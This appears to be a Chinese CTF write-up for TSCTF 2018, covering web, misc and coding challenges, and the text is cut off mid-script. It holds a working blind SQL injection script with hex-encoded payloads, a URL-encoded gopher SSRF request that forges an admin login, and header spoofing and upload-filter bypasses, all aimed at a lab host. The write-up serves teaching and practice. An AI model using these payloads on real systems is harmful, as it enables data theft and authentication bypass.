










# WEB

## are you in class (260)

>就是签到题
>
>hint : web签到is so easy，在不在学校主要看IP，192的某内网段



提交什么都弹错，查看源代码

```html
# classsign.html
<script type="text/javascript">
	function check(){
		var name = document.getElementById("signname").value;
		if(name == "" || name == null){
			alert("你还没有填写姓名！");
			window.location.href="classsign.html";
			return false;
		}
		else{
			alert("别骗我，你都不在学校！");
			window.location.href="classsign.html";
			return false;
		}
	}
</script>

<form name="form" class="form" method="post" action="classsign.php" onsubmit="">
    <br><input id="signname" type="text" placeholder="姓名" name="signname"><br>
    <!--<button type="submit" id="sign-button" name='submit' value='submit'>提交</button>-->
    <p><input type="submit" value="提交" class="submitButton" onclick="return check();"></p>
</form>
```

发现script以及一个隐藏的submit，修改页面后点击提交跳转至classsign.php

```
# classsign.php
You are not in ClA55!!!!, You are hanging outside!!!
```

由hint可知，在header添加XFF字段，值为192.168.1.1，得到flag

## Buy Flag (650)

> flag只有小朋友能买，你只能偷


```html
# index.php
<script language="javascript">
    function BuyFlag(){
		if(!false){
			alert('Please sign in first!');
		}
        else if(0>18){
            alert('You are too old to buy it!');
        }
        else {
            alert('Amazing, maybe, i said maybe, you can bug it!');
        }
    }
</script>
```

点击buy it会由这个script处理，`0>18` 处0为当前用户的年龄


注册年龄需要大于18，且用户名和密码都有限制，发现18刚好可以绕过上面的脚本，然而点击后只会弹窗`Amazing, maybe, i said maybe, you can bug it!` ，并没有什么用，如下图



用正常年龄注册几个账号发现主页中都是显示 `There are littleprince,maihuochaidexiaonvhai,meirenyu.etc that are younger than you have been registered too!` ，尝试用16进制数0x17作为年龄注册，发现显示的内容改变为 ` There are bbb,admin_admin2,a_1.etc that are younger than you have been registered too! ` ，怀疑年龄处存在sql注入，强网杯2018的three hit既视感

将 `-1 and ascii(substr((select database()),1,1))>0#` 转成16进制注册，查看弹窗script处的代码，显示 `else if(-1 and ascii(substr((select database()),1,1))>0#>18){...` ，由此可知没有waf，而主页显示 `There are asdf,bbb,123456.etc that... ` （由于做的较早，在注册了几个账号以后才发现这是正确的回显，这几个账号都是我的233）；将 `-1 and ascii(substr((select database()),1,1))=0#` 转成16进制注册，仍然显示  `There are asdf,bbb,123456.etc that... ` ，可达鸭眉头一皱，发现事情并不简单

怀疑sql语句为 `age < '$age'` ，将 `-1' and ascii(substr((select database()),1,1))=0#` 转成16进制注册，显示  `There are 0 that... ` ，这是错误回显

以上就是sql盲注的两种回显，然后参考 http://pupiles.com/qiangwangbei.html 的脚本，跑出flag `TSCTF{SiBmpe_Sql_f0r_Y0u}`

```python
#-*- coding: utf-8 -*-
import requests
import binascii
import random
url_register = "http://10.112.108.77:10002/register.php"
url_login = "http://10.112.108.77:10002/login.php"
url_index = "http://10.112.108.77:10002/index.php"
result = 'result:'
cookie = {
    "PHPSESSID" : "" # 需填
}
for i in range(1, 65):
    for j in range(32, 127):
        username = "asdf{0}".format(str(random.randint(0,99999)))
        # 表名 children,py_flag
        # age = "-1' and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{0},1))={1}#".format(str(i), str(j))
        # 列名 Id,tsctf_fla9
        # age = "-1' and ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='py_flag'),{0},1))={1}#".format(str(i), str(j))
        # flag
        age = "-1' and ascii(substr((select tsctf_fla9 from py_flag),{0},1))={1}#".format(str(i), str(j))
        age = binascii.hexlify(bytes(age, 'utf8'))
        age = "0x" + str(age, "utf8")
        data1 = {
            "user" : username,
            "pass" : "123456",
            "age" : age
        }
        data2 = {
            "user": username,
            "pass": "123456"
        }
        while True:
            try:
                resp1 = requests.post(url=url_register, data=data1, cookies=cookie, allow_redirects=False)
                break
            except Exception as e:
                continue
        while True:
            try:
                resp2 = requests.post(url=url_login, data=data2, cookies=cookie, allow_redirects=True)
                resp3 = requests.get(url=url_index, cookies=cookie)
                # print(resp3.text)
                if "asdf,bbb,123456" in resp3.text:
                    result += chr(j)
                    print(result)
                break
            except Exception as e:
                continue
```

## easy_upload (928)

> 上，上传
> hint1：we check type, name and the first line of the file
> hint2：check the upload page~



注册以后只有1000积分，买不起flag，查看源代码发现一个隐藏的页面 `<!-- <li role="presentation"><a href="/hard_upload">上传</a></li>-->` ，跳转至 `/hard_upload`



上传一个空文件 `a.py` ，显示 `filename error` ；重命名为 `a.txt` 上传，显示 `mimetype error` ；将 `Content-Type` 改为上传py文件时的 `application/octet-stream` ，仍然显示 `mimetype error` ；将 `Content-Type` 置为空，显示 `attack defend` ，由此过了name和type的检查

由 `I need a python file!` 以及 `the first line of the file` ，将文件首行改为 `#!/usr/bin/python` ，显示 `good~ now back to the store` ，再上传一次，积分就够买flag了 `TSCTF{upload_upload233}`

## Emmm (x)

赛后要了无数hint后做出来的（手动捂脸

### Begin

> hint : 仔细观察你目前得到的信息



尝试用admin弱密钥登陆无果，注册了个admin并登陆，跳转至测试系统





提交url后，服务器请求并在页面上返回内容，起初以为是XSS，然而请求content页面返回空，请求login才有返回，并且请求xss页面时发现它并不解析前端js代码，只是获取网页后端的源代码，故这里是 [SSRF](https://ctf-wiki.github.io/ctf-wiki/web/ssrf/) （由服务器端发起请求的一个漏洞），同时查看HTTP Header可知服务器的系统以及php版本 `Server: Apache/2.4.10 (Debian) PHP/5.6.19` 

### SSRF

SSRF有三种协议可以利用，分别是DICT、Gopher、File，尝试提交 `file:///var/www/html/index.php` ，没有返回值，猜测File协议不可用。网上资料中对SSRF的讲解差不多可分为对Redis的利用以及Gopher协议的各种骚操作，两者是否开启可在 `phpinfo()` 中查看

用burpsuite扫描网站，扫描到 `/backup/2016_db.sql` 、 `/phpinfo.php` 、 `/config.php` 。phpinfo.php中开启了Gopher，没有Redis，故本题应用Gopher骚操作；同时让服务器请求phpinfo，发现没有cookie，确认请求只有后端。config.php应该只是存放网站配置，并没有内容。

```sql
# /backup/2016_db.sql
SET FOREIGN_KEY_CHECKS=0;
-- ----------------------------
-- Table structure for flag
-- ----------------------------
DROP TABLE IF EXISTS `flag`;
CREATE TABLE `flag` (
  `flag` varchar(255) DEFAULT NULL
) ENGINE=MyISAM DEFAULT CHARSET=utf8;
-- ----------------------------
-- Records of flag
-- ----------------------------
INSERT INTO `flag` VALUES ('BUPT{xxxxxxxxxxxxxxx}');

-- ----------------------------
-- Table structure for users
-- ----------------------------
DROP TABLE IF EXISTS `users`;
CREATE TABLE `users` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(255) DEFAULT NULL,
  `password` varchar(255) DEFAULT NULL,
  `is_admin` int(11) DEFAULT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM AUTO_INCREMENT=3 DEFAULT CHARSET=utf8;
-- ----------------------------
-- Records of users
-- ----------------------------
INSERT INTO `users` VALUES ('1', 'admin', MD5('bupt666'), '1');
```

本来以为密码是 `bupt666` 的md5值，登不进以为这里有坑琢磨了很久，结果密码就是 `bupt666` 233。

```
Warning! login failed! admin's login ip must be 127.0.0.1 (attention: http server's local port is 80)!
```

根据错误提示，第一反应是XFF之类的HTTP Header来一套，然而签到题就是XFF，不可能这里还是XFF，故应通过SSRF登陆，即通过Gopher发送Post请求。

### Gopher Post

Gopher协议发送Post请求，格式是把Post数据包放在 `gopher://ip:port/_POST ...` 之后，由于Gopher协议没有默认端口，所以不可省略，换行使用CRLF。gopher协议在收到数据包后，会进行url解码后解析，所以数据包需要经过url编码。

```http
POST /index.php?action=login HTTP/1.1
Host: 127.0.0.1
Content-Length: 31
Content-Type: application/x-www-form-urlencoded
Accept: */*
Connection: close

username=admin&password=bupt666
```

抓取登陆的POST包并简化，这里需要将Cookie删掉，因为登录状态会强制跳转至content，不可重新登录。


然后对这个包进行url编码，安利VScode中的 `Encode Decode` 扩展，可以很方便地进行各种编码转换。

```
POST%20%2Findex.php%3Faction%3Dlogin%20HTTP%2F1.1%0D%0AHost%3A%20127.0.0.1%0D%0AContent-Length%3A%2031%0D%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0D%0AAccept%3A%20*%2F*%0D%0AConnection%3A%20close%0D%0A%0D%0Ausername%3Dadmin%26password%3Dbupt666
```

提交 `gopher://127.0.0.1:80/_` + Post数据包，即可成功登录管理员账号。如果想直接在Burp中提交，则将 `gopher://127.0.0.1:80/_` + Post数据包，再进行一次url编码。

```http
HTTP/1.1 302 Found
Date: Tue, 29 May 2018 16:20:44 GMT
Server: Apache/2.4.10 (Debian) PHP/5.6.19
X-Powered-By: PHP/5.6.19
Set-Cookie: PHPSESSID=4478cd71d1203359ef87dec71c67417c; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Location: index.php?action=content
Content-Length: 0
Connection: close
Content-Type: text/html; charset=utf-8
```

若是成功登录，则会跳转至content，如上；若是密码错误，则会回显 `login failed! username/password error` ；若是参数有误，则可能跳转至login。

将自己的SessionID改为返回的ID，即可在content页面看到flag `TSCTF{ssrf_with_gopher_is_amazing}` 

### Reference

第一次接触SSRF，很多地方讲述不清，可以看下我学习时查阅的资料~

[SSRF 服务端请求伪造](https://ctf-wiki.github.io/ctf-wiki/web/ssrf/)

[SSRF漏洞的利用与学习](https://uknowsec.cn/posts/notes/SSRF%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E5%AD%A6%E4%B9%A0.html)

[weblogic_ssrf入侵redis测试](https://_thorns.gitbooks.io/sec/content/weblogicssrf_ru_qin_redis_ce_shi.html) （非本题知识点）

[利用 Gopher 协议拓展攻击面](https://blog.chaitin.cn/gopher-attack-surfaces/)

[使用gopher协议构造post包的方法](https://www.th1s.cn/index.php/2016/10/31/15.html)

# Misc

## 我需要治疗 (191)

> 到天枢Dubhe公众号，开启你的踢诶斯吸踢诶腐之旅！VFNDVEZ7SV9OMzNkX0hlQTFpTmd9(==)

Base64解码 `TSCTF{I_N33d_HeA1iNg}` ，发送至公众号后台得flag `TSCTF{iT_15_HiiiigH_NO0n}`

## 简单的RSA (406)

> 这是一道简单的RSA
>
> [http://www.tsctf2018.com/upload/简单的RSA.bmp](http://www.tsctf2018.com/upload/%E7%AE%80%E5%8D%95%E7%9A%84RSA.bmp)


一开始以为图片被截短，修改长宽后文件损坏，随后发现文件中有e、n、cipher



```python
N = 0x52A99E249EE7CF3C0CBF963A009661772BC9CDF6E1E3FBFC6E44A07A5E0F894457A9F81C3AE132AC5683D35B28BA5C324243
e = 0x010001
cipher = 0x18228DF578DAD6DC893CBCD95BD934D28F26C820778E7AFEB6B3BE38FD5298E497FAF8CEAA78C613E5F5FADD4BD5E50FD8A5
```

通过 http://factordb.com 网站将N分解，得p、q

```python
p = 863653476616376575308866344984576466644942572246900013156919
q = 965445304326998194798282228842484732438457170595999523426901
```

通过wheel安装[gmpy2](https://pypi.org/project/gmpy2) ,求d

```python
import gmpy2
d = gmpy2.invert(e, (p-1)*(q-1))
# d = 521250646663056391768764366517618655312275374668692430321064634566533568373969990465313092928455546989832961905578375473
```

使用Big Integer Calculator，进行模幂运算cipher^d mod N，再转成16进制，将16进制转成字符串，即为flag `TSCTF{ez_rsa_real_ez~}`



# Coding

## gobang (406)

> Can you play gobang with me? 10.112.108.77 1113

```
-----------game start-----------
you move to HG
robot move to HI

<ROUND 1>
  A B C D E F G H I J K L M N O
A . . . . . . . . . . . . . . .
B . . . . . . . . . . . . . . .
C . . . . . . . . . . . . . . .
D . . . . . . . . . . . . . . .
E . . . . . . . . . . . . . . .
F . . . . . . . . . . . . . . .
G . . . . . . . . . . . . . . .
H . . . . . . O . X . . . . . .
I . . . . . . . . . . . . . . .
J . . . . . . . . . . . . . . .
K . . . . . . . . . . . . . . .
L . . . . . . . . . . . . . . .
M . . . . . . . . . . . . . . .
N . . . . . . . . . . . . . . .
O . . . . . . . . . . . . . . .
Your move (u:undo, q:quit): AB # 用户输入
robot is thinking now ...
robot move to II

<ROUND 2>
  A B C D E F G H I J K L M N O
A . O . . . . . . . . . . . . .
B . . . . . . . . . . . . . . .
C . . . . . . . . . . . . . . .
D . . . . . . . . . . . . . . .
E . . . . . . . . . . . . . . .
F . . . . . . . . . . . . . . .
G . . . . . . . . . . . . . . .
H . . . . . . O . X . . . . . .
I . . . . . . . . X . . . . . .
J . . . . . . . . . . . . . . .
K . . . . . . . . . . . . . . .
L . . . . . . . . . . . . . . .
M . . . . . . . . . . . . . . .
N . . . . . . . . . . . . . . .
O . . . . . . . . . . . . . . .
Your move (u:undo, q:quit):
```

五子棋，总时间不限，每步有时限。尝试人工下的过程中，发现如果一直输入已有棋子的坐标，可以无限延长该步的时间，然后就拖时间慢慢下完了...

## Zelda (619)

> 10.112.108.77 1111

```
为了救出被加农囚禁的塞尔达公主,林克需要从迷失森林中拿回他的大师剑和其它装备
----------------------
|      名字:link      |
|       力量:0        |
|      背包:100       |
----------------------
准备好了吗?(yes or no)yes # 用户输入
下面是迷失森林地图,你需要从左上角走到右下角的出口处(*代表link,$代表出口),开始你的冒险吧!
```



超大开放地图233（60*165），每输入一次wasd会刷新一次地图，一次可以输入多个wasd，算法参考 [一道走迷宫算法题python实现](https://blog.csdn.net/sinly100/article/details/72832805)

```
恭喜你通过了迷失森林！下面是你获得的宝箱内容
------------------------------------------------------------
| 物品名称        攻击力          大小        数量        序列  |
|----------------------------------------------------------|
|  大师剑         47             16          1          1   |
|  古代剑         32             11          3          2   |
|  皇家剑         27             10          2          3   |
|  雷电剑         21              7          4          4   |
|  火焰剑         26              9          9          5   |
|  寒冰剑         24              8          6          6   |
------------------------------------------------------------
你只有让你的攻击力尽可能的大，才能打败加农大魔王！(输入格式:序列1,数量1 序列2,数量2...)
```

通过迷宫后，需选择武器打怪，将100背包填满就是最大攻击，序列为 `2,2 4,2 6,6 1,1` ，打完得到flag `TSCTF{Y0u_5re_a1Ready_a_Her0}`

```python
#-*- coding: utf-8 -*-
import socket
import time
def send_format(content):
  content += "\n"
  return content.encode()
## Init
HOST = '10.112.108.77'
PORT = 1111
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((HOST, PORT))
time.sleep(1)
response = sock.recv(1024)
response = response.decode('utf-8')
print(response)
## Game Start
sock.send(send_format("yes"))
time.sleep(1)
response = sock.recv(10240)
response = response.decode('utf-8')
response = response[response.index('#'):]
print(response)
## Map init
## 0-nothing 1-brick
Map = []
line = []
for char in response:
  if char == "#":
    line.append(1)
  elif char == " " or char == "$" or char == "*":
    line.append(0)
  elif char == "\n":
    Map.append(line)
    line = []
  elif char == "$":
    break
Map.append(Map[0]) # last line
# for line in Map:
#     print(line)

## Move!
source = Map
route_stack = [[1,0]] # Begin
route_history = [[1,0]]
def up(location):
  #横坐标为0，无法再向上走
  if source[location[0]][location[1]] == 1:
    return False
  else:
    new_location = [location[0],location[1]-1]
    #已经尝试过的点不会尝试第二次
    if new_location in route_history:
      return False
    #碰到墙不走
    elif source[new_location[0]][new_location[1]] == 1:
      return False
    else:
      route_stack.append(new_location)
      route_history.append(new_location)
      return True
def down(location):
  if source[location[0]][location[1]] == 1:
    return False
  else:
    new_location = [location[0],location[1]+1]
    if new_location in route_history:
      return False
    elif source[new_location[0]][new_location[1]] == 1:
      return False
    else:
      route_stack.append(new_location)
      route_history.append(new_location)
      return True
def left(location):
  if source[location[0]][location[1]] == 1:
    return False
  else:
    new_location = [location[0]-1,location[1]]
    if new_location in route_history:
      return False
    elif source[new_location[0]][new_location[1]] == 1:
      return False
    else:
      route_stack.append(new_location)
      route_history.append(new_location)
      return True
def right(location):
  if source[location[0]][location[1]] == 1:
    return False
  else:
    new_location = [location[0]+1,location[1]]
    if new_location in route_history:
      return False
    elif source[new_location[0]][new_location[1]] == 1:
      return False
    else:
      route_stack.append(new_location)
      route_history.append(new_location)
      return True
lo = route_stack[0]
while route_stack[-1] != [58,164]: # End
  if up(lo):
    lo = route_stack[-1]
    continue
  if down(lo):
    lo = route_stack[-1]
    continue
  if left(lo):
    lo = route_stack[-1]
    continue
  if right(lo):
    lo = route_stack[-1]
    continue
  route_stack.pop()
  lo = route_stack[-1]
# print(route_stack)

## Get ans
ans = ""
for i in range(len(route_stack)- 1):
  a1 = route_stack[i][0]
  a2 = route_stack[i][1]
  b1 = route_stack[i+1][0]
  b2 = route_stack[i+1][1]
  if a1<b1:
    ans += "s"
  elif a1>b1:
    ans += "w"
  elif a2<b2:
    ans += "d"
  elif a2>b2:
    ans += "a"
# print(ans)
sock.send(send_format(ans))
time.sleep(1)
response = sock.recv(10240)
response = response.decode('utf-8')
print(response)

## attack
sock.send(send_format("2,2 4,2 6,6 1,1"))
time.sleep(1)
response = sock.recv(10240)
response = response.decode('utf-8')
print (response)
## Close the Socket
sock.close()
time.sleep(0.001)
```

## ballgame (812)

> Strongest Collision 10.112.108.77 1112

```
About the the operation:
    step [n]: the ball will move n steps without any input,which means you cannot control the game during the process.
    move [n]: move the baffle on the bottom to axis n.
For example:
    $ step 3
    $ move 4
[*] Last but not least, you only have 30s to pass the game.
[*] Want to have a look the game works? (y/n)n # 用户输入
[*] Are you ready?y # 用户输入
######################################################
#                   Game started                     #
######################################################
               ######################
               # * **       * *    *#
               #*        *  * *     #
               #  *     **         *#
               #* *       **     *  #
               #    *      *   *   *#
               #*  *       ** * * * #
               # **  *              #
               #  **      *   **    #
               #      @             #
               #                    #
               #         =          #
```

规则说的很复杂，其实就是弹球游戏(x

地图大小12*22，`move [n]` 从0开始，游戏开始先输入 `step 1` 获得弹球初始运动方向，由于限时30秒，循环 `move板 - step到球快掉` ，具体算法看注释

```python
#-*- coding: utf-8 -*-
import socket
import time
def send_format(content):
  content += "\n"
  return content.encode()
def printMap(Map):
  for i, line in enumerate(Map):
    for j, sign in enumerate(line):
      if i==lo[0] and j==lo[1]:
        print("&", end="")
      elif sign == 0:
        print("#", end="")
      elif sign == 1:
        print(" ",end="")
      else:
        print("*", end="")
    print("")
move_direct = [[-1,-1],[-1,1],[1,1],[1,-1]] # 左上 右上 右下 左下
brick_direct = [[0,-1],[-1,0],[0,1],[1,0]]  # 左 上 右 下

## Init
HOST = '10.112.108.77'
PORT = 1112
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((HOST, PORT))
time.sleep(1)
response = sock.recv(1024)
response = response.decode('utf-8')
print(response)
sock.send(send_format("n"))
time.sleep(1)
response = sock.recv(1024)
response = response.decode('utf-8')
print(response)

## GAME START
sock.send(send_format("y"))
time.sleep(0.1)
response = sock.recv(1024)
response = response.decode('utf-8')
response = response[165:]
print(response)
## Direct Init
move = [] # move_direct
aindex = response.index("@")
sock.send(send_format("step 1"))
time.sleep(1)
response = sock.recv(1024)
response = response.decode('utf-8')
print(response)
bindex = response.index("@")
if(bindex-aindex==39):
  move = move_direct[2] # 右下
elif(bindex-aindex==37):
  move = move_direct[3] # 左下
elif(bindex-aindex==-37):
  move = move_direct[1] # 右上
elif(bindex-aindex==-39):
  move = move_direct[0] # 左上
print(move)
## Map Init
## 0=brick 1=nothing -1=boom
Map = []
lo = [] # ball location
for i in range(12): # 12 lines
  line = []
  chars = response[i*38+15:i*38+15+22+1] # 行首有15个空格，行尾为\n，即15+22+1
  for j, char in enumerate(chars):
    if char == "#":
      line.append(0)
    elif char == " ":
      line.append(1)
    elif char == "*":
      line.append(-1)
    elif char == "@":
      line.append(1)
      lo = [i, j]
    elif char == "=":
      line.append(-1)
  Map.append(line)
# for line in Map:
#     print(line)
print(lo)

## Move!
## 中文=球移动方向 english=brick/boom direction
## -(boom) = -(-1) = 1 = nothing
## 撞击只换方向不移动，空无一物时移动
step = 0 # step [n]
while True:
  if(move == move_direct[0]): # 左上
    if(Map[lo[0]-1][lo[1]] <= 0): # up
      Map[lo[0]-1][lo[1]] = -Map[lo[0]-1][lo[1]]
      if(Map[lo[0]][lo[1]-1] <= 0): # up+left
        Map[lo[0]][lo[1]-1] = -Map[lo[0]][lo[1]-1]
        move = move_direct[2] # 右下
      else: # up
        move = move_direct[3] # 左下
    elif(Map[lo[0]][lo[1]-1] <= 0): # left
      Map[lo[0]][lo[1]-1] = -Map[lo[0]][lo[1]-1]
      move = move_direct[1] # 右上
    elif(Map[lo[0]-1][lo[1]-1] <= 0): # upleft
      Map[lo[0]-1][lo[1]-1] = -Map[lo[0]-1][lo[1]-1]
      move = move_direct[2] # 右下
    else: # nothing
      step += 1
      lo[0] += move[0]
      lo[1] += move[1]
  elif(move == move_direct[1]): # 右上
    if(Map[lo[0]-1][lo[1]] <= 0): # up
      Map[lo[0]-1][lo[1]] = -Map[lo[0]-1][lo[1]]
      if(Map[lo[0]][lo[1]+1] <= 0): # up+right
        Map[lo[0]][lo[1]+1] = -Map[lo[0]][lo[1]+1]
        move = move_direct[3] # 左下
      else: # up
        move = move_direct[2] # 右下
    elif(Map[lo[0]][lo[1]+1] <= 0): # right
      Map[lo[0]][lo[1]+1] = -Map[lo[0]][lo[1]+1]
      move = move_direct[0] # 左上
    elif(Map[lo[0]-1][lo[1]+1] <= 0): # upright
      Map[lo[0]-1][lo[1]+1] = -Map[lo[0]-1][lo[1]+1]
